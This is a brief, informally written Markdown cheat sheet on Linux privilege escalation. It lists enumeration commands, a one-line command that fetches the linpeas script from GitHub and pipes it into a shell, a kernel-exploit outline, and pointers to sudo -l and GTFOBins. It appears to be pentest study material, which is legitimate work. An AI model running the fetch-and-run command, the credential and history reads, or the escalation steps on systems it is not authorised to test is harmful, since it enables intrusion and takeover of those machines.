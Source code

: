 # privellege escilation

## Enumaration

```hostname```
```uname -a```
```cat /proc/version```
```cat /etc/passwd```
```env```
```history```

# Automated tools

```curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh```

## kernel exploits 
Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.


The Kernel exploit methodology is simple;

* Identify the kernel version
* Search and find an exploit code for the kernel version of the target system
* Run the exploit

Most of the cves can be found in [linux exploit cves]( https://www.linuxkernelcves.com/cves )


## Privilege Escalation: Sudo
Any user can check its current situation related to root privileges using the ```sudo -l``` command.
[GFTOBINS](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.



